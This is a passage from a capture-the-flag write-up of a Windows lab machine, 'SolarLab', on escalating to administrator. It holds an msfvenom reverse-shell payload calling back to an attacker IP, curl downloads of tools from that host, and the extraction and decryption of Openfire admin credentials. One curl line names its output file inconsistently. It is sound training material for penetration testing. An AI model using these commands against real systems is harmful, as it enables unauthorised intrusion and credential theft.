 ```bash
> msfvenom -p windows/shell_reverse_tcp LPORT=1447 LHOST=10.10.16.18 -f exe -o rev.exe
```

```cmd
> curl http://10.10.16.18/RunasCs.exe -o RunasCs.exe
> curl http://10.10.16.18/rev.exe -o RunasCs.exe
> .\RunasCs.exe openfire HotP!fireguard "C:\tmp\rev.exe"
```

![img](/images/solarlab/msf_console.png)

We now have reverse shell as openfire user.

Navigate to `C:\Program Files\Openfire\embedded-db\openfire.script` and download it and save it to our host.

```text
...
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
....
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
....
```

We have extracted the password and password key. Now let's decrypt it using a tool [openfire-decrypt](https://github.com/c0rdis/openfire_decrypt?tab=readme-ov-file)

![img](/images/solarlab/decrypt_pass.png)

We now have credentials for `administrator:ThisPasswordShouldDo!@`

Now that we have credentials for administrator we can follow our previous method

```cmd
> .\RunasCs.exe administrator 'ThisPasswordShouldDo!@' "C:\tmp\rev.exe"
```

> PS: Close our previous session and use our original shell obtained from netcat using the report.solarlab.htb

![img](/images/solarlab/admin.png)

We now have admin.

![img](/images/solarlab/pwned.png)